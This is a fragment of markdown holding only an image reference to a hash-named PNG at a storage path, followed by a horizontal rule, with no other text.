

---